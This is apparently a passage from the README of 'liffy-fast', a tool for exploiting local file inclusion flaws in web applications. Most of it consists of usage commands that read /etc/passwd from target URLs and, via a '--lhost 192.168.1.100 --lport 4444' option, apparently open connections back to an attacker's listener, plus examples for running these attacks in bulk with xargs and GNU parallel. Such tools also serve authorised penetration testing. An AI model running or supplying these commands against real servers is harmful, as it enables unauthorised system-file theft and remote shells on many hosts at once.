 ### Integration Support
- **xargs**: Seamless integration with xargs for command-line processing
- **GNU parallel**: Advanced parallel processing capabilities
- **Pipeline Support**: Easy integration with other security tools

## Usage Examples

### Single URL Testing
```bash
# Filter technique
./liffy-fast filter --url "http://target/file.php?page=" --file "/etc/passwd"

# Data technique with auto-detection
./liffy-fast data --url "http://target/file.php?page=" --auto-ip --auto-port
```

### Batch Processing
```bash
# Process multiple URLs
cat urls.txt | ./liffy-fast filter --batch --file "/etc/passwd"

# Parallel batch processing
cat urls.txt | ./liffy-fast data --batch --parallel --lhost 192.168.1.100 --lport 4444

# JSON output
cat urls.txt | ./liffy-fast filter --batch --json --file "/etc/passwd" > results.json
```

### Xargs Integration
```bash
# Basic xargs usage
cat urls.txt | xargs -I {} ./liffy-fast filter --url "{}" --file "/etc/passwd"

# Parallel xargs
cat urls.txt | xargs -P 4 -I {} ./liffy-fast data --url "{}" --lhost 192.168.1.100 --lport 4444
```

### GNU Parallel Integration
```bash
# Basic parallel usage
cat urls.txt | parallel -j 4 'liffy-fast data --url {} --lhost 192.168.1.100 --lport 4444'

# Advanced parallel with progress
cat urls.txt | parallel --progress -j 4 'liffy-fast filter --url {} --file /etc/passwd'
```

## Technical Implementation

### Architecture
- **Modular Design**: Separate classes for each technique
- **Configurable**: Flexible configuration system
- **Thread-Safe**: Proper handling of concurrent execution
- **Error Handling**: Comprehensive error management
